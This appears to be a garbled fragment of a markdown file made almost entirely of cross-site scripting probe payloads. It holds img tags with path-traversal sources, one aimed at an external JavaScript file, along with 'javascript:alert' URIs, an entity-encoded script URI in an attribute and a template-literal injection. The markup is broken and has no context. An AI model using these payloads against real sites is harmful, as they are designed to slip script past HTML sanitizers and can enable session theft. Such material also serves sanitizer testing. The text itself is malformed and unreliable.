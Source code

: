 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="../../../../\javascript:alert(2);" onload!#$%%&()*~+-_.,:;?@[/|\]^`=javascript:alert(1)>XXX</a>

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id=!#$%%&()*~+-_.,:;?@[/|\]^`>bbbb</div>
<span value="`${1+1}`">aaa</span>

](()
